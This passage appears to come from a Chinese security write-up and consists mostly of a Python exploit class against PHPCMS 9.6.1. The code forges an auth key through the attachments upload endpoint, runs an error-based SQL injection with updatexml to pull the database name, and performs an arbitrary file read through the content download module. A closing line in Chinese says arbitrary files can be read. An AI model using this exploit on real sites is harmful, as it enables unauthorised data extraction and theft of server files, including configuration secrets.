 ```python
			return url
		else:
			return url+'/'

	def _getuserid(self):
		url = self.url + 'index.php?m=wap'
		r = requests.get(url)

		return r.headers['Set-Cookie'][13:]

	def get_auth(self, payload):
		url = self.url+'index.php?m=attachment&c=attachments&a=swfupload_json&aid=1'
		userid = self._getuserid()

		r = requests.post(url,params={'src':payload} , data={'userid_flash': userid})

		for x, y in re.findall(r'([^;, ]+)=([^;, ]+)', r.headers['Set-Cookie']):
			if 'att_json' in x:
				return y
		return False

	def sqli(self):
		url = self.url+'index.php?m=content&c=down'
		payload = "&id=%2*7and updatexml(1,concat(1,(database())),1)#&m=1&modelid=1&catid=1&f=1"
		a_k = self.get_auth(payload)

		r = requests.get(url, params={'a_k': a_k})
		print(re.findall(r"XPATH syntax error: '(.+?)'", r.text))

	def filedown(self, filename):
		url = self.url + 'index.php?m=content&c=down&a=init'
		payload = r'pad=x&i=1&modelid=1&catid=1&d=1&m=1&s={}&f=.p%253chp'.format(filename)
		a_k = self.get_auth(payload)

		r = requests.get(url, params={'a_k': a_k})

		match = re.search(r'<a href="(.+?)" class="xzs_btn"', r.text)
		if match is not None:
		 	r = requests.get(self.url+'index.php'+match.group(1))
		 	print(r.text)
		else:
			print('error')

def main():
	exp = PHPCMS('127.0.0.1/phpcms9.6.1')
	exp.filedown('index')

if __name__ == '__main__':
	main()
```
就可以进行任意文件的读取